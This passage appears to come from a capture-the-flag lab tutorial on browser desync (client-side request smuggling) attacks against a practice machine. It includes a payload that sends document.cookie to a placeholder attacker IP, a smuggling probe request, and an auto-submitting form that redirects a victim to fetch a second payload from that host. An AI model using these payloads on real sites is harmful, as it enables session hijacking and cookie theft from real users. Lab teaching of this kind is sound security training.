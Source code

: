 We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.\
Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.\
To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

To do so, we can set up a rogue server by serving a route with a malicious payload like `fetch('http://YOUR_IP/' + document.cookie);`

Be ready for the challenge in the next task; you will have to solve it using this exploit!

## Challenge Help

***

In this task, we will look for a possible way to solve the challenge of the previous task.

Firstly, you have to add in your /etc/hosts file the following entry:

`MACHINE_IP challenge.thm`

It can be observed that utilizing the given payload and refreshing the page results in a 404 error page. This indicates that the web server is vulnerable to request smuggling browser desync.

```python
fetch('http://challenge.thm/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

Next, we can observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.

![Browser Desync Attack Vulnerable Functionality](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/dff30d90a55e2ae46ef41aea01194e96.png)

Visting  [http://challenge.thm/securecontact](http://challenge.thm/securecontact) you can notice that the input from the message field is reflected but is not interpreted:

![Browser Desync Attack Secure Contact](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/ba1ae0a040c95ada5fcd3e3bbc44e28c.png)

The victim will instead visit another page [http://challenge.thm/vulnerablecontact](http://challenge.thm/vulnerablecontact) where the input will be interpreted.

![Browser Desync Attack Contact Vulnerable](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/a2834f4fe56b297a57576c0f6d4992b6.png)

Now, we just need to build our payload to redirect the victim user to fetch the second payload from our server:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
